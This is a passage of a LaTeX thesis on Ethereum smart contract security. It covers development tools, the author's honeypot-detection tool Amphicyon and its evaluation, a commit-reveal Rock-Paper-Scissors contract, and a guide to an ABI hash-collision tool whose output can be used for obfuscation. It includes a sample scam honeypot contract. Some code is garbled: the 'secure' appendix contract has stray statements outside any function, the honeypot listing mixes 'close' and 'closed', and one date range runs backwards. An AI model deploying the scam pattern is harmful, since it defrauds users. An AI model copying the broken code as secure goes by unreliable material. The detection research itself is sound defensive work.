To avoid creating smart contracts with vulnerabilities like described in the previous section, it is important that the programmer is aware of potential pitfalls, and has profound knowledge about the underlying technologies, former attacks and current progress in research. To assist programmers when mastering these difficulties, a range of tools have been developed. In this section, some promising analysis and development tools as well as alternative programming languages are presented:\footnote{list is partly inspired by \cite{parity:newdevprocesses} and \cite{ntnu:smartcontractsecurity}}

\paragraph{Programming Languages}
Although \textsc{Solidity} is the most stable and widely used programming language for Ethereum smart contracts, many security issues arise because of the mismatch between the JavaScript-like syntax and execution of the EVM, and the complexity of the syntax. To avoid those problems, alternative languages compiling into EVM bytecode could be used:

\textsc{Vyper} \cite{github:vyper} is an experimental contract programming language trying to deal with the security and auditability-issues of \textsc{Solidity}: The Python-like language aims at being simpler, better understandable and more secure by design at the expense of missing language features like inheritance, modifiers or function overloading. Since \textsc{Vyper} is still in a beta-version, it should be used with caution. The following code is an implementation of the \mintinline{solidity}{allowWithdrawal()}-function of listing \ref{lst:introduction:caution}.
\begin{minted}{python}
@public
def allowWithdrawal(_newDecision: bool):
    assert(msg.sender == self.landlord)
    self.landlordAllowsWithdrawal = _newDecision
\end{minted}

\textsc{Lisp Like Language} or LLL is a completely different approach to programming in higher programming languages like \textsc{Solidity} or \textsc{Vyper}: Programming \textsc{LLL} is very similar to writing EVM bytecode directly, but is able to take care of the difficult stack handling and jump management by introducing additional control structures. While \textsc{LLL} requires a skilled programmer and is harder to read, it compiles to clean and efficient bytecode and does not hide the nature of the EVM code.\footnote{\cite{github:llldocs}, part of \cite{github:vyper}} The direct connection to EVM assembler code can be seen in this implementation of \mintinline{solidity}{allowWithdrawal(bool)} written in the \textsc{Vyper}-variant of \textsc{LLL}:
\begin{minted}{text}
[if,
  [eq, [mload, 0], /* function identifier hash: */ 864448360 <allowWithdrawal>],
  [seq,
    [calldatacopy, 320, 4, 32],
    [assert, [iszero, callvalue]],
    [uclamplt, [calldataload, 4], 2],
    [assert, [eq, caller, [sload, 1 <self.landlord>]]],
    [sstore, 2 <self.landlordAllowsWithdrawal>, [mload, 320 <_newDecision>]],
    stop
  ]
],
\end{minted}

\paragraph{Development}
When developing Solidity smart contracts, it is helpful to enforce coding practices and detect potential vulnerabilities. A tool programmed for this purpose is \textsc{Solium} (\cite{github:solium}), which performs a static analysis of Solidity source code and is able to report and fix style and security issues.

For automated tests and a comfortable deployment process, a smart contract development framework like \textsc{Truffle} \cite{github:truffle} can be used. To ensure that every branch of the code is covered by the tests additional code-coverage measuring "plugins" like \textsc{solidity-coverage} \cite{github:soliditycoverage} can be integrated into Truffle.

\textit{Fuzzing} is a technique to find bugs in programs by providing random and potentially invalid input data to a program while checking for different execution properties. \textsc{Echidna} is a tool that performs fuzzing on smart contracts.

An approach to \textit{formal verification} of smart contracts was presented in \cite{bhargavan:formalsolidity}, where both EVM bytecode and Solidity source code can be compiled to \textsc{F*}, a functional programming language aimed at program verification. Using this approach, the equivalence of the source code with its compiled bytecode can be proven, as well as functional correctness specifications.

\paragraph{Tools}
As a way to analyse the bytecode of smart contracts and detect common vulnerabilities like Re-entrancy or mishandled exceptions, there is \textsc{Oyente}, which was presented in \cite{luu:makingsmartcontractssmarter}. It uses symbolic execution to detect possible execution paths in the bytecode, and then checks for different properties of the code without executing the contract. A mass-analysis of all contracts on the blockchain in May 2016 revealed, that potentially \( 27.9 \% \) of all smart contracts were not handling return values of external calls correctly and detected 186 contracts with a potential vulnerability to re-entrancy attacks.

A similar approach is used by \textsc{Mythril} (\cite{consensys:mythril}), which was presented in April of this year, that is able to detect a broader range of security vulnerabilities and additionally includes tools to create control flow graphs for given bytecode and search the local copy of the blockchain for certain function calls or operations in smart contracts.

\pagebreak{}

\section{Honeypot-Filter Amphicyon}

Although the idea of honeypots has been documented in various blog posts, still not every smart contract developer is aware of this phenomenon. Because of this, up until time of writing, honeypot contracts have been published on a regular basis -- and still users were tricked by honeypots into sending Ether to that address, as for example recently seen at the contract address \cite{etherscan:latchedhoneypot}.

Although some of them get recognized by users of the blockchain explorers, posting comments and therefore warning potential victims, many honeypots remain undetected. Despite Etherscan having implemented a warning for honeypots\footnote{that was used for example in \cite{etherscan:uncalledcallhoneypot}}, this feature is not used on a regular basis.

If a discovery note is posted at the page of a honeypot address, the owner usually closes the honeypot quickly, since potential victims would be scared away by the comments, making this honeypot a loss for the owner.

This is especially important because there are deployment gas costs for each honeypot of around 0.004 Ether -- which makes honeypots profitable if one in 200 created honeypots is successful when omitting the time spent for programming, deployment and setup. When looking at the transactions of a common honeypot pattern, the honeypot creator requires around ten minutes to initialize the honeypot; including time for code modifications and the verification on Etherscan the total deployment takes probably around 15 minutes.\footnote{ \((2.53 + 0.23 + 0.19 + 0.98 + 0.12 + 0.12) \texttt{ Szabo} = 4.17 \texttt{ Szabo} = 0.00417 \texttt{ Ether} \) as gas costs, \( 1 \texttt{ Ether} \) as the potential profit, 10 minutes between 11:57 and 12:07 on 16th of July 2018 as the time consumed by deployment, as taken from \cite{etherchain:honeypot}}

Because of this, reliable recognition of honeypots would stop honeypots from being profitable and therefore discourage their creators from uploading them to the blockchain. But since manual analysis can not be performed instantaneously after the contract has been uploaded to the blockchain and is time-consuming, a automated tool to recognize smart contract honeypots would help out here.

As a mitigation to the honeypot problem the author of this thesis has developed the tool \textsc{Amphicyon}\footnote{The name \textsc{Amphicyon} was taken from the bear-dog that populated North America, Europe, Asia and Africa for about 14 million years until it went extinct three millions years ago. The naming of the tool after that mixture of a bear and a dog is meant to emphasize the ability of the tool, as a "detection dog" and a "honeypot-seeking" bear.}, which is meant to be an automated honeypot filter for blockchain explorers. \textsc{Amphicyon} uses static code analysis of the Solidity code to find programming patterns used in honeypots, and decides for a given contract if it has the traits of a honeypot.

The project is written in typescript and has a size of more than 4000 SLoC and features 18 classifiers, that are able to detect all underhanded Solidity patterns presented in section \ref{section:honeypot:underhanded} along with other honeypot coding patterns.

\subsection{Design Decisions}
When creating the tool, the major design decision was which data to base the decisions on: The first option is using the contract bytecode as done by \textsc{Oyente}, which is available for every smart contract directly in the blockchain. While this code would spot vulnerabilities to zero-value transactions (which is closely related to the transaction-ordering dependency supported by \textsc{Oyente}), this approach is not suited for finding underhanded Solidity code, because often it doesn't leave marks. For example, the following two functions compile to exactly the same bytecode:

\begin{multicols}{2}
	\begin{minted}{solidity}
function underhandedSolidity() public {
    msg.sender.call.value(1 ether);
}
\end{minted}

	\begin{minted}{solidity}
function emptyFunction() public {

}
\end{minted}
\end{multicols}

Another idea is using patterns in the transactions: When creating zero-value internal transaction honeypots, there are always several calls to another contract creating internal zero-value transactions to secretly change the contract state. While this approach is probably best for internal zero-value transaction honeypots, there is no way to spot honeypots using underhanded Solidity code this way, especially if the no-one was tricked by the honeypot.

\textsc{Amphicyon} uses static analysis of the source code to detect honeypots: While it is easy to spot underhanded solidity code using this pattern, it has even a good chance when considering honeypots using zero-value-transaction because they usually are based on coding patterns not used in harmless contracts. Although only around 1 \% of the contracts provide their source code on the Ethereum blockchain\footnote{as calculated by \cite[Introduction]{nikolic:findingbadcontractsatscale}}, this is not a problem for smart contract honeypots, since they usually want to be found and reveal their sourcecode in order to be analyzed by potential victims.

\subsection{Implementation}
\textsc{Amphicyon} is implemented as a command line tool and npm library in typescript. The main reason for this choice was, that most Solidity source-code analysis tools like Solium are written in JavaScript, and therefore there already are simple ways to parse the Solidity code.

\subsubsection{Static Code Analysis}
The parser used to build the \textit{Abstract Syntax Tree} (AST) from the Solidity source code was generated by \texttt{PEG.js} (see \cite{github:pegjs}) using the Solidity Grammar also used in \texttt{solparse} (see \cite{github:solparse}). Classifiers are modules placed in the subfolder \texttt{./src/classifiers}, that provide some meta-information and the function \mintinline{solidity}{check()} executing the analysis:

\begin{minted}{typescript}
export interface Classifier {
  category: 'INTEREST' | 'UNDERHANDED SOLIDITY' | 'PATTERN' | 'FOLLOW-UP';
  using: 'SOURCECODE' | 'AST' | 'NAME' | 'ETHERSCAN';
  description: string;
  check: (contractInformation: ContractInformation) => {
    result: 'FOUND' | 'NOT FOUND' | 'NOT DECIDABLE';
    description?: string;
    occurrences?: AnalysisResultOccurrence[];
  };
}
\end{minted}

The check function receives information about the smart contract like its abstract syntax tree, its source code or metadata from the Etherscan website, and returns if the property could be found (or \mintinline{typescript}{'NOT DECIDABLE'} if the information required for this analysis was not provided) along with the position in the source code of the main node having this property. \textsc{Amphicyon} can be easily extended by programming another classifier and adding it as an export to \texttt{./src/classifiers/index.ts}

\subsubsection{Implemented Classifiers}
\textsc{Amphicyon} implements 18 different classifiers. Of those, 13 walk the AST to detect vulnerabilities, two work directly with the source code (which is used for example for detecting whitespaces that try to hide code), and three check the contract metadata from Etherscan (for example to detect the obvious 1 Ether contract balance). The classifiers have very different approaches:

The first subset containing four classifiers uses properties that were commonly found among honeypot contracts, but are not directly related to their traps: Those include a balance of almost exactly one Ether, an uppercase name, a size that can be easily understood (less than 150 lines of code) and an operation sending Ether to another account. Additionally, there are eight classifiers detecting the underhanded solidity coding techniques presented in section \ref{section:honeypot:underhanded}, like shadowed variables of the parent contract. Four additional classifiers were created to detect common coding patterns used in internal zero-value-call honeypots. The last classifier checks, if somebody sent Ether to the contract -- and was meant to be used to estimate the profit of smart contract honeypot creators. A table with all classifiers and a short description of their functionality can be found in appendix \ref{appendix:classifiers}.

The complexity of the classifiers varies from one-liners to tests spanning over multiple hundred lines of code:

For some properties, like when testing if a contract attempts to move code out of the visible area by using spaces, applying regular expressions was enough:
\begin{minted}{typescript}
matchAll(/([\s]{200,})[^\s].*$/m, contractInformation.sourceCode)
\end{minted}

Other classifiers walked the AST to detect common vulnerabilities: To find unsent call expressions like \mintinline{solidity}{msg.sender.call.value(1 ether)}, the walker looks for a node that is a member access like \mintinline{solidity}{.value()} or \mintinline{solidity}{.gas()}, and ensures, that this expression is not called again.

Especially the detection of coding patterns used in zero-value internal transactions-honeypots required more efforts: For those, some patterns used in this kind of honeypot are used: A popular trick is to introduce a variable, that can be changed by an external variable and that blocks the payment:

\begin{listing}[H]
	\begin{minted}[
        linenos=true,
        firstnumber=1
    ]{solidity}
contract InternalTransactionHoneypot {
    bool close = false;
    address owner = msg.sender;

    function retrieve() public payable {
        if(!closed && msg.value > 1 ether) {
            msg.sender.transfer(address(this).balance);
        }
    }

    function close(bool newStatus) {
        require(tx.origin == owner);
        close = newStatus;
    }
}
    \end{minted}
	\caption{A minimal honeypot, that can be locked using internal zero-value-transactions.}
	\label{lst:amphicyon:initializationPhase}
\end{listing}

To detect this vulnerability, the AST is walked and checked for the variables that fulfill the following three conditions:
\begin{itemize}
	\item state variable declared as \mintinline{solidity}{bool}
	\item variable that is being changed outside the constructor
	\item variable that appears during conditions that render the whole call without effect, like in line 5 or in \mintinline{solidity}{if(closed) throw;}.
\end{itemize}

\subsubsection{Filter and User Interface}
Since for most smart contracts multiple classifiers are evaluated to be true that for their own are not enough to flag a contract as as a honeypot, a more complex system was needed to decide from the result of the single classifiers whether a given contract is a honeypot or not. For this purpose, a bayes-filter was used, whose functionality is described in \cite{ct:spamfilter}.

Although \textsc{Amphicyon} is able to "learn" from manual decisions by calculating the bayesian probabilities from a set of manually classified smart contracts, due to the small amount of honeypots better results could be achieved by tweaking the conditional probabilities manually.

The tool contains a simple command line interface to analyze smart contracts: \textsc{Amphicyon} can analyze singe honeypots by their address or source code given in a file; but is also able to download and analyze multiple pages of the \textit{Verified Smart Contract}-page at once. The user can add manual decisions whether a contract is a honeypot or harmless, which are then used to improve the classifiers. A description of how to use \textsc{Amphicyon} can be found in the appendix \ref{appendix:amphicyon}.

\subsection{Evaluation}
To measure the quality of the classifications of the tool, the latest 8032 smart contracts\footnote{The date range of the contracts analyzed is from 20th of July 2018 to 6th of May 2018. Of those, 77 smart contracts were flagged as honeypots, which amounts to \( 0.96 \% \). The analysis time of a single smart contract amounted to less than a quarter of a second on a regular notebook.

\vspace{1em}
\begin{minipage}{\linewidth}
	\centering
	
\includegraphics[width=9cm]{img/amphicyon/analysis.pdf}
	\captionof{figure}[Payload Layout]{Chart of manual analysis of the honeypot contracts. Different variants are printed in different shades in the outer circle.}
	\label{fig:honeypotchart}
\end{minipage}

All of the contracts found were manually analyzed and categorized; the results can be seen in \ref{fig:honeypotchart}. Four of the flagged smart contracts were harmless, which amounts to a false positive rate of \( 5.2 \% \). In the following, the findings of the manual analysis of the honeypots found by \textsc{Amphicyon} are presented in detail:\footnote{The notes on the manual classification can be found inside the folder \texttt{misc} in the repository.}

\paragraph{Found Honeypots}
Of those 73 found honeypots, many contracts were similar except for minor modifications like changed variable names and contract names. When considering unique findings, 15 distinct honeypots were found. Of those, seven had been already known before writing the paper, seven  contract types had not been known to the author, but other honeypots using the same technique had already been found. The use of race-conditions in honeypots as utilized in a multiple contracts called \texttt{GIFT_CARD}, of whom five instances were recognized, had not been known before running the tool; those contracts were detected because of some heuristics like silently failing functions as presented in section \ref{section:honeypots:silentlyfailing}.

With 56 of the honeypots their majority  abused zero-value transactions. 32 of them were identical riddle contracts, with names like \texttt{guess_and_get_the_money} (located at transaction \cite{etherscan:riddle}) where it seemed like Ether was transferred for the solution for a riddle like \mintinline{solidity}{"What do you serve that you can’t eat?"}, whose solution (here: \mintinline{solidity}{"guestS"}) was sent in plain text to the contract and then stored as a hashed value. To submit the solution and receive the bounty the user would have to pay 1 Ether; which would get stuck in the smart contract because the solution hash had been changed directly using an internal zero-value transaction. Also contracts similar to the smart contract called \texttt{COIN_BOX} presented in section \ref{section:honeypot:library} could be found seven times.

Five other tagged contracts found were identical honeypots called \texttt{GIFT_CARD} using transaction races, as presented in section \ref{section:honeypots:transactionordering}. The remaining twelve honeypots used various underhanded Solidity techniques: One each for uncalled call expressions, the empty string compiler bug and null pointer writing; nine of them used shadowed state variables.

The creators of honeypots yielded a considerable amount of crypto currencies: Of the manually validated contracts, 14 have been successful, totaling to a yield of 11.3 Ether or about 5.100 \$ in only about 11 weeks.\footnote{at \( 456.74 US\$ / Ether \) according to \cite{coinmarketcap:overview}}

\paragraph{General Findings}
There are also some other interesting results found in the analysis: More than three quarters of all smart contracts (6111 out of 8032) were recognized to interact with or to implement token contracts following the ERC20 or ERC223 interface.

The pattern of silently failing functions (a \mintinline{solidity}{if}-condition wrapping all the contents of a function instead of reverting the transaction using for example \mintinline{solidity}{require()} in the case the condition is not fulfilled) was present in almost all (72 out of 73) detected honeypots; but also in \( 7.5 \% \) (595 out of 7958) harmless contracts. In many cases this is unwanted behavior, for example forgetting to store  incoming payment or making the interacting user believe their function call was successful.

\paragraph{False Positives}
Four harmless contracts were marked as honeypots, three of those distinct. All of them contained common honeypot properties like the ability to transfer Ether and an easily understandable length. Additionally, all used silently failing functions, that could have been replaced by more user-friendly reverting checks, which made them more suspicious to \textsc{Amphicyon}, like\footnote{taken from \cite{etherscan:earlytokensale}}
\begin{minted}{solidity}
modifier afterDeadline() { if (now > deadline) _; }
\end{minted}

\paragraph{False Negatives}
To estimate the amount of false negatives, 20 honeypots that had been found during the research in discussion forums, blog posts or by chance have been checked. 19 of those contracts were recognized as honeypots, only one was a false negative: The similar variable names \mintinline{solidity}{payoutCursor_Id} and \mintinline{solidity}{payoutCursor_Id_} were detected in \texttt{FirePonzi} from section \ref{section:honeypots:similar}, but since using similar variable names were used too often in harmless contracts (the analysis counted 124 out of 7958 harmless contracts, and in nine out of 73 affected honeypots), this was not notable enough to be detected.

\subsection{Ideas for Improvements}
To protect users from being tricked by honeypots, \textsc{Amphicyon} could be integrated into blockchain explorers like \url{etherscan.io} to automatically scan new verified contracts before they are published to the "Verified Contracts"-list. This can be easily done since no information that is not available on Etherscan is used. At the entry of detected honeypots then a warning above the contract information could be displayed, as already done for \cite{etherscan:uncalledcallhoneypot}; and the contract could be removed from the list of verified smart contracts. Except for honeypots, most contracts don't rely on being found by chance in the "Verified Contracts"-List of the blockchain explorer; so the damage of false positives would be limited. Since \textsc{Amphicyon} also marks the affected parts of the code for each honeypot technique, the finding could possibly also be displayed inside the source-code viewer at the corresponding line.

Creating honeypots which are optimized not to be recognized by \textsc{Amphicyon} would be difficult in that situation, because already known honeypots could not be deployed automatically any more without being detected. Once \textsc{Amphicyon} is programmed to detect a technique, their inventors would have to spend time to find new honeypot techniques. Additionally, the effort to create effective honeypots would be increased, since it becomes more difficult to write harmless-looking and deceptive code, if fewer options are available.

To improve the detection of honeypots, there are also several possible approaches:
\textsc{Amphicyon} could start using patterns in the transaction data (including internal zero-value-transactions, that are not displayed on \url{etherscan.io}, but on other blockchain explorers like \url{etherchain.org}) to detect the setup of the honeypots; this could help to lower the false positive rate and also detect honeypots that static code analysis is not able to reveal.

Additional classifiers could also help to increase the precision of the detection: For example, a contract could be checked for comparisons between the incoming Ether in \mintinline{solidity}{msg.value} and a fixed value, which is often used to incentivise users to send an amount making the honeypot worth the effort; or checking for a comparison \mintinline{solidity}{msg.value == tx.origin}, which was often a protection mechanism used by honeypots against attacks from other contracts (as presented in section \ref{section:honeypots:transactionordering}).

% New honeypot type: https://etherscan.io/address/0x2ed2a3a09568c8d16f1f3d03eeb1d1ea96e4a4dd#code

\pagebreak{}

\section{Outlook}
When considering the frequency and simplicity of most attacks against Ethereum smart contracts, it is very likely that there are still a lot of large-scale vulnerabilities to be found in the future. Additionally, there are many other challenges regarding smart contracts aside from security issues that need to be solved:

First of all, there are problems with the underlying blockchain technology. Since most blockchains still rely on a proof of work algorithm, it consumes a lot of energy; for the Ethereum the energy consumption is larger than the energy consumption of Iceland as a country.\footnote{as stated on \cite{digiconomist:ethereumenergy}} Furthermore, since every full node in the network has to validate every newly included transaction, the amount of transactions is heavily limited to still allow regular computers to participate in the network: While Visa is able to handle more than 1.500 transactions per second, the Ethereum blockchain is limited to about 20 transactions per second.\footnote{as stated by \cite{altcointoday:paypalvsethereum}} As Matzutt et al. found out in their paper \cite{matzutt:arbitraryblockchaincontent}, the bitcoin blockchain includes child pornography which can not be removed due to the append-only properties; thus making the possession of the complete blockchain data illegal. The Ethereum blockchain might be facing similar problems, since it is even easier to store arbitrary content there.

Also, there are legality concerns for smart contracts, which will be explained as in this section at the example of Germany: It is completely legal to write agreements in the form of programs instead of natural language, but if due to programming errors the contract works different from the intention, or even is hacked due to vulnerabilities, the effects would have to be reverted. Additionally, when considering smart contracts as contracts in the context of law, it becomes illegal for programmers to offer their skills for smart contract programming, since in Germany law consulting is only allowed to lawyers.

Another problem occurs when trying to use smart contracts to watch functionalities outside the blockchain: The get information about the real world, the blockchain requires oracles running outside the blockchain providing smart contracts with data, which for most cases are difficult to program, whose correct execution is even more difficult to be verified.\footnote{see \cite{ct:smartcontracts} and \cite[page 17]{vbwbayern:blockchain}}

But still, due to the inventions of blockchains, it was finally possible for Nick Szabos idea from 1997 to become real. And using newly invented ideas for application and progresses in research for improved security, there is a good change that in a few years they will become a regular part of the business world.

\pagebreak{}


\setcounter{biburllcpenalty}{5000}
\setcounter{biburlucpenalty}{6000}
\setcounter{biburlnumpenalty}{6000}

\lhead{References}
\rhead{}
\printbibliography

\pagebreak{}

\appendix

\pagenumbering{Roman}
\setcounter{page}{1}
\lhead{Appendix \thesection}
\section*{Appendix}
\phantomsection
\addcontentsline{toc}{section}{Appendix}
\addtocontents{toc}{\vspace{-0.5em}}
\section{Rock-Paper-Scissors with Correct Incentives}
\label{appendix:rpsincentivescorrected}

In section \ref{section:vulnerability:miners:rockpaperscissor} and section \ref{section:other:incentive}, different possible mistakes in the implementation "Rock Paper Scissors"-contract were shown.


The orignal and flawed contract was posted on Etherscan at address \cite{etherscan:rockpaperscissor}. The main problem of this contract was, that entering the game as the first player, due to the blockchain being public, the second player would be able to see the move before sending the transaction and therefore can always win by selecting a winning option.

\begin{minted}{solidity}
struct Hand {
    uint hand;
}

mapping(address => Hand[]) tickets;

function Rock(){ setHand(uint(1)); }
function Paper(){ setHand(uint(2)); }
function Scissors(){ setHand(uint(3)); }
\end{minted}

When trying to solve this problem using a \textit{commit-reveal-scheme}, it has to be made sure that the incentives of the players are set right, namely, that if a player knows they lose, they don't have an advantage by not revealing and therefore blocking the contract.

Additionally, in this version  the contract occupies unnecessary space, because ticket keeps all moves ever taken in the history of the smart contract.

Delmolino et al. provided an implementation (\cite{delmolino:rps}) of a commit-reveal-scheme in Serpent, but their solution incentivizes the second player to keep the contract stuck if the first player had revealed a move winning -- which they pointed out in the discussion, but did not attempt to fix.

Because of this, a secure implementation of a commit-reveal scheme is presented:
\begin{minted}{solidity}
pragma solidity ^0.4.24;

contract RockPaperScissors {
    enum Move {
        Rock,
        Paper,
        Scissors,
        NotInGame,
        NotRevealedYet
    }
    
    struct Player {
        bytes32 commitment;
        address paymentAddress;
        Move move;
    }
    
    Player playerOne = Player({
        move: Move.NotInGame,
        paymentAddress: address(0),
        commitment: bytes32(0)
    });
    Player playerTwo = Player({
        move: Move.NotInGame,
        paymentAddress: address(0),
        commitment: bytes32(0)
    });

    uint constant commitment = 1 ether;
    uint constant fee = 100 finney;
    uint constant deposit = 1 ether;

    uint lastChange;
    uint constant timeoutBlocks =  1 * 60 * 5; // 1 hour in blocks
    
    address owner;
    
    mapping(address => uint) public balances;
    
    modifier onlyAfterTimeout() {
        require(block.number >= lastChange + timeoutBlocks);
        _;
    }
    
    modifier resettingTimeout() {
        _;
        lastChange = block.number;
    }

    constructor () public {
        owner = msg.sender;
    }
    
    function commit(bytes32 inputCommitment) public payable resettingTimeout {
        uint senderAccountBalance = msg.value + balances[msg.sender];

        require(senderAccountBalance >= commitment + deposit);
        
        senderAccountBalance -= deposit + commitment;
        balances[msg.sender] = senderAccountBalance;
        
        // Select Player with smaller number, that is not in the game
        Player storage currentPlayer = playerTwo;
        if (playerOne.move == Move.NotInGame) {
            currentPlayer = playerOne;
        } else if(playerTwo.move != Move.NotInGame
            || playerOne.paymentAddress == msg.sender) {
            revert();
        }
        
        currentPlayer.move = Move.NotRevealedYet;
        currentPlayer.paymentAddress = msg.sender;
        currentPlayer.commitment = inputCommitment;
    }
    
    function hasPlayerWon(Move player, Move opponent) internal pure returns (bool) {
        return (player == Move.Scissors && opponent == Move.Paper) ||
            (player == Move.Paper && opponent == Move.Rock) ||
            (player == Move.Rock && opponent == Move.Scissors);
    }    

    // [Entry condition] Both players have revealed,
    // or both players have committed and time has run out.
    function resolve() internal {
        uint newPlayerOneBalance = balances[playerOne.paymentAddress];
        uint newPlayerTwoBalance = balances[playerTwo.paymentAddress];
        uint newOwnerBalance = balances[owner];
        
        if(playerOne.move >= Move.NotInGame && playerTwo.move >= Move.NotInGame) {
            // If both players didn't reveal, keep all the deposits and commitments
            newOwnerBalance += 2 * commitment + 2 * deposit;
        } else if(playerOne.move >= Move.NotInGame) {
            // If one player didn't reveal, treat other player as if he had won,
            // and keep deposit
            newPlayerTwoBalance += 2 * commitment + deposit - fee;
            newOwnerBalance += fee + deposit;
        } else if(playerTwo.move >= Move.NotInGame) {
            newPlayerOneBalance += 2 * commitment + deposit - fee;
            newOwnerBalance += fee + deposit;
        } else if(hasPlayerWon(playerOne.move, playerTwo.move)) {
            newPlayerOneBalance += 2 * commitment + deposit - fee;
            newPlayerTwoBalance += deposit;
            newOwnerBalance += fee;
        } else if (hasPlayerWon(playerTwo.move, playerOne.move)) {
            newPlayerTwoBalance += 2 * commitment + deposit - fee;
            newPlayerOneBalance += deposit;
            newOwnerBalance += fee;
        } else {
            newPlayerTwoBalance += commitment + deposit;
            newPlayerOneBalance += commitment + deposit;
        }
        
        balances[playerOne.paymentAddress] = newPlayerOneBalance;
        balances[playerTwo.paymentAddress] = newPlayerTwoBalance;
        balances[owner] = newOwnerBalance;

        playerOne.move = Move.NotInGame;
        playerTwo.move = Move.NotInGame;
    }
    
    function hasRevealed(Move move) internal pure returns(bool) {
        return move < Move.NotInGame;
    }
    
    function isCorrectMove(Move move) internal pure returns(bool) {
        return move == Move.Rock || move == Move.Scissors || move == Move.Paper;
    }  uint withdrawerBalance = balances[msg.sender];
        
    require(withdrawerBalance > 0);
   
    
    // Player can reveal if other player has not committed yet,
    // but only makes himself vulnerable by doing that
    function reveal(Move move, string salt) public resettingTimeout() {
        Player storage currentPlayer = playerTwo;
        
        if(playerOne.paymentAddress == msg.sender && playerOne.move == Move.NotRevealedYet) {
            currentPlayer = playerOne;
        } else if(!(playerTwo.paymentAddress == msg.sender && playerTwo.move == Move.NotRevealedYet)) {
            revert();
        }
        
        require(keccak256(abi.encodePacked(move, salt)) == currentPlayer.commitment);
        require(isCorrectMove(move));
        currentPlayer.move = move;
        
        if(hasRevealed(playerOne.move) && hasRevealed(playerTwo.move)) {
            resolve();
        }
    }
    
    function kickUnrevealed() onlyAfterTimeout resettingTimeout public {
        require(playerOne.move != Move.NotInGame && playerTwo.move != Move.NotInGame);
        
        resolve();
    }
    
    function withdraw () public {
        uint withdrawerBalance = balances[msg.sender];
        
        require(withdrawerBalance > 0);
        
        balances[msg.sender] = 0;
        msg.sender.transfer(withdrawerBalance);
    }
}
\end{minted}

A correct game of "Rock Paper Scissors" using this contract could contain the following interactions:

\begin{itemize}
	\item Player 1 commits to scissors by sending the hash of \mintinline{solidity}{Move.Scissors} and the salt string \mintinline{solidity}{"saltoffirstplayer"} to commit; sending the required two Ether along with the message:
	      \begin{minted}{solidity}
commit(0xbe141094275f044dc3c34c5b50b1ada4007925debed74bfc7071b518840b5203)
\end{minted}
	\item Afterwards, Player 2 enters the game by making his move \mintinline{solidity}{Move.Rock} hashed along with the "random" salt \mintinline{solidity}{"saltofsecondplayer"} to commit:
	      \begin{minted}{solidity}
commit(0x96b9d5fad3ef05f587c11b52f41e6d4f215ef9ff0397b98a7dd5b5de5e151843)
\end{minted}
	\item Player 2 directly reveals afterwards by sending in their move:
	      \begin{minted}{solidity}
reveal(Move.Rock, "saltofsecondplayer")
\end{minted}
	\item Player 1 follows by sending in
	      \begin{minted}{solidity}
reveal(Move.Scissors, "saltoffirstplayer")
\end{minted}
\end{itemize}

Because of the required deposit, Player 2 was strongly incentivized to reveal although they had already know they lost, because otherwise the deposit would have been kept by the owner of the contract.

The result of this execution is a balance of 1 Ether for Player 1, and a balance of 3 Ether for player two who has won the game, that later can be withdrawn using \mintinline{solidity}{withdraw()}.

\pagebreak{}

\section{Using Sact}
\label{appendix:abicollision}
In this section, the a short usage guide for the \textit{Solidity ABI Collision Tool} (or \textsc{Sact}) will be presented. The dependencies for building the project are \texttt{gcc} and \texttt{make} along with the libraries \texttt{libkeccak}, \texttt{argp} and \texttt{uthash}; the build process can be launched by calling \texttt{make} inside the folder.

Using \texttt{./collision --help} the integrated help page with the following contents can be displayed:
\begin{verbatim}
$ ./collision --help
Usage: collision [OPTION...] from to
A program calculating collisions of the Solidity ABI.

  -c, --threads=INTEGER      Amount of threads used when no dictionary is used
                             at the from-side.
  -f, --from-prefix=STRING   Prefix to be used on the from-side.
  -m, --mode=HASH|DICTIONARY|NONCE
                             Mode of execution.
  -t, --to-prefix=FILE       Prefix to be used on the to-side.
  -?, --help                 Give this help list
      --usage                Give a short usage message

Mandatory or optional arguments to long options are also mandatory or optional
for any corresponding short options.
\end{verbatim}

\subsection{Calculating Hashes}
To calculate the function hash identifier of a fixed function, the function identifier can be entered as the first parameter -- and the hash value is printed out to the console.

\begin{verbatim}
$ ./collision "find my hash"
9bb03d0f
\end{verbatim}

\subsection{Finding Collisions}
The primary application of \textsc{Sact} is finding hash identifier collisions. To do this, the tool includes two different modes:

\subsubsection{One-sided Search}
In this first mode activated by \texttt{--mode=NONCE}, a function identifier with a matching hash value is attempted to be found for a fixed target function identifier. The tested identifiers are built using the following formula:
\begin{verbatim}
[from-prefix][nonce in the form of [A-Za-z]+][from]
\end{verbatim}

Since without any optimization this would take about an hour, the tool is able to use multiple threads; their amount can be defined using for example \texttt{--threads=4} for four threads. This mode is the only mode using more than one thread, for all other modes the argument will be ignored.

\begin{verbatim}
$ ./collision --mode=NONCE --threads=4 "()" "executeSomething()"
[Thread 01] hash(A()) == f446c1d0 != d90fec61 == hash(executeSomething())
[Thread 02] hash(FPXc()) == 3796f4d4 != d90fec61 == hash(executeSomething())
[Thread 03] hash(KeuEB()) == 0412673b != d90fec61 == hash(executeSomething())
[Thread 04] hash(PtRhB()) == 794e29e8 != d90fec61 == hash(executeSomething())
...
hash(wnpWTF()) == hash(executeSomething()) == d90fec61
\end{verbatim}

If a function identifier has been found, the tool terminates printing out the final solution.

This functionality can be used to send arbitrary data to other contracts in restricted test environments like IDEs; or for obfuscation of the interaction with other contracts.

\subsubsection{Two-sided Search}
